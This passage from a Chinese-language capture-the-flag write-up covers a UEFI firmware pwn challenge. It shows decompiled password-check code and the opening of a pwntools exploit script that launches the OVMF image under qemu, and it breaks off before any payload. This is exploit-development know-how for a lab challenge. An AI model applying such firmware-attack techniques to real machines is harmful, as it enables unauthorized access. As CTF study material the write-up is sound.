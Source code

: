 ```c
    my_puts(L"Enter Password: \n");
    while ( 1 )
    {
      v8 = my_getchar();
      ++v15;
      if ( v8 == '\r' )
        break;
      if ( v8 != '\n' )
      {
        v9[v15] = v8;
        my_puts(L"*");
        v5 = str_leng(v9);
        if ( v5 >= v13 - 1 )
          break;
      }
    }
    my_puts(L"\n");
    sub_A68(v9, v15, v11);
    if ( !sub_9AC(v11, &unk_1B840, v13) )
      return 1;
    my_puts(L"Wrong!!\n");
    ++v14;
```

## Exploitation

来到利用部分，为了方便调试可以先根据 `run.py` 改一个 pwn 脚本出来，若涉及 UEFI UI 的操作可以用 `socat -,raw,echo=0 SYSTEM:"./exp.py"` 运行：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

# from lianpwn import *
from pwn import *
import subprocess

context.arch = "amd64"
context.log_level = "debug"

rl = lambda a=False: io.recvline(a)
ru = lambda a, b=True: io.recvuntil(a, b)
rn = lambda x: io.recvn(x)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
sa = lambda a, b: io.sendafter(a, b)
sla = lambda a, b: io.sendlineafter(a, b)
ia = lambda: io.interactive()
dbg = lambda text=None: gdb.attach(io, text)
lg = lambda s_name, s_val: print("\033[1;31;40m %s --> 0x%x \033[0m" % (s_name, s_val))
i2b = lambda c: str(c).encode()
u32_ex = lambda data: u32(data.ljust(4, b"\x00"))
u64_ex = lambda data: u64(data.ljust(8, b"\x00"))

fname = "/tmp/uefipwn"
subprocess.call(["cp", "OVMF.fd", fname])
subprocess.call(["chmod", "u+w", fname])
io = process(
    [
        "qemu-system-x86_64",
```